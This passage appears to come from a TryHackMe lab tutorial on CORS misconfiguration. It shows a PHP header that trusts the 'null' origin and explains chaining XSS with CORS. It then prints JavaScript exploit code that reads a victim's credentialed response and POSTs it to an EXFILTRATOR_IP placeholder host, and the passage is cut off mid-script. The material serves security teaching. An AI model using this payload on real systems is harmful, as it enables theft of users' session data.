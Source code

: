 ```php
<?php
header('Access-Control-Allow-Origin: null');
header('Access-Control-Allow-Credentials: true');
?>
```

The "null" origin usually occurs when an HTML page is loaded locally using theÂ `file:///`Â protocol or inside an iframe.

![Null origin in the response](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/84dd592fc588146fe095dc5b5c3927c8.png)  

To exploit the vulnerable code above, an attacker can create a malicious webpage with an iframe containing a javascript code that makes cross-origin requests to the target application.

#### XSSÂ +Â CORS

We can use the vulnerable application atÂ [http://corssop.thm/xss.php](http://corssop.thm/xss.php)Â to chainÂ XSSÂ withÂ CORS. The application is designed to accept JavaScript or HTML code and then save it to the database. This means you can inject JavaScript or HTML code into the application, and once the victim visits the application, the payload will be executed.

![Sample XSS payload with a basic alert box](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/7014d79bc18957e4809e6dd67e23fd11.png)  

Below is a sample exploit code designed to exfiltrate the data from null.phpÂ while using the victim's session. Make sure to change the EXFILTRATOR_IP variable with your IP address.

```html
<div style="margin: 10px 20px 20px; word-wrap: break-word; text-align: center;">
    <iframe id="exploitFrame" style="display:none;"></iframe>
    <textarea id="load" style="width: 1183px; height: 305px;"></textarea>
  </div>

  <script>
    // JavaScript code for the exploit, adapted for inclusion in a data URL
    var exploitCode = `
      <script>
        function exploit() {
          var xhttp = new XMLHttpRequest();
          xhttp.open("GET", "http://corssop.thm/null.php", true);
          xhttp.withCredentials = true;
          xhttp.onreadystatechange = function() {
            if (this.readyState == 4 && this.status == 200) {
              // Assuming you want to exfiltrate data to a controlled server
              var exfiltrate = function(data) {
                var xhr = new XMLHttpRequest();
                xhr.open("POST", "http://EXFILTRATOR_IP/receiver.php", true);
                xhr.withCredentials = true;
                var body = data;
                var aBody = new Uint8Array(body.length);
                for (var i = 0; i < aBody.length; i++)
                  aBody[i] = body.charCodeAt(i);
                xhr.send(new Blob([aBody]));
              };
              exfiltrate(this.responseText);
            }
          };
          xhttp.send();
        }
        exploit();
      <\/script>
    `;

    // Encode the exploit code for use in a data URL
    var encodedExploit = btoa(exploitCode);

```